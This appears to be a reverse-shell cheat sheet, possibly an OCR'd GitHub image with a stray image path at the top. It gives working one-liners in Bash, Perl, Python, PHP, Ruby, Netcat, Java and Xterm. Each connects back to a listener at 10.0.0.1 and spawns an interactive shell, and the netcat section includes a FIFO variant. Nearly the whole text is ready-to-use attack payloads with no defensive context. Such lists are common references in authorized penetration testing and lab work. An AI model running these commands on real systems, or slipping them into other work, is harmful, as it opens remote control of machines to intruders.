 ### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```php
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm
Xterm will connect to you on port 6001.
```bash
xterm -display 10.0.0.1:1
```

To receive the shell on your host:
```bash
xhost +10.0.0.1
xnest :1
```
